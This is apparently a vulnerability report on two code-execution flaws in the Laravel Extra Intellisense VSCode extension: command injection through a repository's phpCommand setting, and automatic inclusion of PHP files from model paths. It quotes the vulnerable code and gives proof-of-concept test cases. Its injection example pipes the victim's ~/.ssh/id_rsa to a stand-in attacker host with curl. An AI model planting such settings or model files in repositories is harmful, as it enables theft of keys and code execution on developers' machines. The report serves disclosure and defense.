 # Laravel Extra Intellisense Extension Security Vulnerabilities

## Vulnerability 1: Command Injection via phpCommand Configuration

### Description
The Laravel Extra Intellisense extension allows users to configure a custom PHP command template via the `LaravelExtraIntellisense.phpCommand` setting. This setting is intended to support Docker environments, but it can be exploited for command injection. When a victim opens a malicious repository that contains a `.vscode/settings.json` file with a crafted `phpCommand` configuration, the extension will execute arbitrary system commands when it attempts to analyze the Laravel project.

### Impact
An attacker can achieve remote code execution on the victim's machine with the privileges of the VSCode process. This allows the attacker to access sensitive information, install malware, or perform other malicious actions.

### Vulnerability Rank
Critical

### Currently Implemented Mitigations
The extension attempts to escape some special characters in the code being executed, such as double quotes, dollar signs, and backslashes. However, this is insufficient protection against command injection through the command template itself.

### Missing Mitigations
1. No validation or sanitization of the `phpCommand` configuration value
2. No warning to users about the security implications of this setting
3. No execution in a restricted environment or sandbox

### Preconditions
1. The victim must open a repository with VSCode that contains a malicious `.vscode/settings.json` file
2. The Laravel Extra Intellisense extension must be installed
3. The repository must appear to be a Laravel project (contain an artisan file)

### Source Code Analysis
The vulnerability is primarily in the `runPhp` method in `helpers.ts`:

```typescript
static async runPhp(code: string, description: string|null = null) : Promise<string> {
    code = code.replace(/\"/g, "\\\"");
    if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
        code = code.replace(/\$/g, "\\$");
        code = code.replace(/\\\\'/g, '\\\\\\\\\'');
        code = code.replace(/\\\\"/g, '\\\\\\\\\"');
    }
    let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
    let command = commandTemplate.replace("{code}", code);

    // Then executes using cp.exec()
    cp.exec(command,
        { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
        function (err, stdout, stderr) {
            // handle output
        }
    );
}
```

The vulnerability occurs because:

1. The extension reads the `phpCommand` configuration, which can be set in the repository's `.vscode/settings.json`
2. It performs simple string replacement of `{code}` with the PHP code to execute
3. The resulting command is passed directly to `cp.exec()` without any validation
4. If an attacker includes shell metacharacters or command separators in the `phpCommand` configuration, they can inject additional commands

For example, a malicious repository might include:

```json
{
  "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\" & curl -s http://attacker.com/exfil.php?data=$(cat ~/.ssh/id_rsa)"
}
```

When the extension starts up, it will run various PHP code snippets to gather information about the Laravel project, and each execution will trigger the malicious command.

### Security Test Case
1. Create a new Laravel project repository with a malicious configuration:
   ```
   mkdir malicious-laravel
   cd malicious-laravel
   touch artisan
   mkdir -p .vscode
   ```

2. Create a `.vscode/settings.json` file with a malicious command:
   ```json
   {
     "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\" & echo PWNED > proof.txt"
   }
   ```

3. Have the victim clone and open the repository with VSCode that has the Laravel Extra Intellisense extension installed

4. The extension will automatically activate and execute PHP commands to analyze the Laravel project

5. After opening the repository, verify that a file named `proof.txt` has been created in the repository root, containing the text "PWNED"

6. For a more sophisticated attack, the command could execute a reverse shell or download and execute malware

## Vulnerability 2: Code Execution via Arbitrary File Inclusion

### Description
The Laravel Extra Intellisense extension dynamically includes PHP files from directories specified in the `modelsPaths` configuration setting. If a malicious repository contains specially crafted PHP files in these directories, they will be executed when the extension analyzes the project.

### Impact
An attacker can achieve arbitrary PHP code execution in the context of the Laravel application, which could lead to system compromise depending on the permissions of the PHP process.

### Vulnerability Rank
High

### Currently Implemented Mitigations
None. The extension includes PHP files without any validation of their content.

### Missing Mitigations
1. Validation or sandboxing of included PHP files
2. Warning users about the security implications of opening untrusted repositories

### Preconditions
1. The victim must open a repository with VSCode that contains malicious PHP files
2. The Laravel Extra Intellisense extension must be installed

### Source Code Analysis
In `EloquentProvider.ts`, the `loadModels()` method sends PHP code that dynamically includes all PHP files from the model paths:

```typescript
Helpers.runLaravel(
    "foreach (['" + vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<Array<string>>('modelsPaths', ['app', 'app/Models']).join('\', \'') + "'] as $modelPath) {" +
    "   if (is_dir(base_path($modelPath))) {" +
    "      foreach (scandir(base_path($modelPath)) as $sourceFile) {" +
    "         if (substr($sourceFile, -4) == '.php' && is_file(base_path(\"$modelPath/$sourceFile\"))) {" +
    "             include_once base_path(\"$modelPath/$sourceFile\");" +
    "         }" +
    "      }" +
    "   }" +
    "}"
    // ...more code...
)
```

This code will include any PHP file found in the model paths, which by default are `app` and `app/Models`. An attacker can place malicious PHP files in these directories that will be executed when the extension analyzes the models.

### Security Test Case
1. Create a malicious Laravel repository:
   ```
   mkdir malicious-laravel
   cd malicious-laravel
   touch artisan
   mkdir -p app/Models
   ```

2. Create a malicious PHP file at `app/Models/MaliciousModel.php`:
   ```php
   <?php
   // This code will execute when the extension loads models
   file_put_contents('proof_model_execution.txt', 'Model code execution successful');

   // Make it look like a legitimate model
   class MaliciousModel extends \Illuminate\Database\Eloquent\Model {
       // Empty model class
   }
   ```

3. Have the victim clone and open the repository in VSCode with the Laravel Extra Intellisense extension

4. The extension will analyze the models, including the malicious file

5. Verify that a file named `proof_model_execution.txt` has been created, demonstrating successful code execution
